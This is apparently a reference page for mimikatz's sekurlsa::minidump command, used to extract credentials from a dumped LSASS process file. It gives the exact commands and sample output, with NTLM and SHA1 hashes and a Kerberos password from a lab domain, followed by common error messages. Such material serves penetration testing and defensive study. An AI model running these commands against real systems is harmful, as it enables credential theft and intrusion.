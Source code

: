 # minidump

`sekurlsa::minidump` can be used against a dumped LSASS process file and it does not require administrative privileges. It's considered as an "offline" dump.

```
mimikatz # sekurlsa::minidump file.dmp
```

```
mimikatz # sekurlsa::logonpasswords

Authentication Id : 0 ; 3113147 (00000000:002f80bb)
Session           : Interactive from 2
User Name         : DWM-2
Domain            : Window Manager
Logon Server      : (null)
Logon Time        : 13/10/2021 20:58:06
SID               : S-1-5-90-0-2
        msv :
         [00000003] Primary
         * Username : WIN10$
         * Domain   : hacklab
         * NTLM     : 2c60cae5c83d27b349e98662de463dfc
         * SHA1     : fd6e6c6616156dac734f87d1eec386fa29537d89
        tspkg :
        wdigest :
         * Username : WIN10$
         * Domain   : hacklab
         * Password : (null)
        kerberos :
         * Username : WIN10$
         * Domain   : hacklab.local
         * Password : 8us/0-5sE3:_bd4\B+nEqpI#j,[avKJ'7l5RpDew]EEXya=tZq7g,jAifx%-sgv)Seto+@aPtf];gmb=gSE4K?"D\B+ CBW>vD5*/k71q'iI#V4$otG4t9R[
        ssp :
        credman :
        cloudap :       KO
```

**According to Benjamin the following errors might be raised:**

* `ERROR kuhl_m_sekurlsa_acquireLSA ; Minidump pInfos->MajorVersion (A) != MIMIKATZ_NT_MAJOR_VERSION (B)` minidump is opened from a Windows NT of another major version (_NT5_ vs _NT6_).
* `ERROR kuhl_m_sekurlsa_acquireLSA ; Minidump pInfos->ProcessorArchitecture (A) != PROCESSOR_ARCHITECTURE_xxx (B)` minidump is opened from a Windows NT of another architecture (_x86_ vs _x64_).
* `ERROR kuhl_m_sekurlsa_acquireLSA ; Handle on memory (0x00000002)` The minidump file is not found (check path).
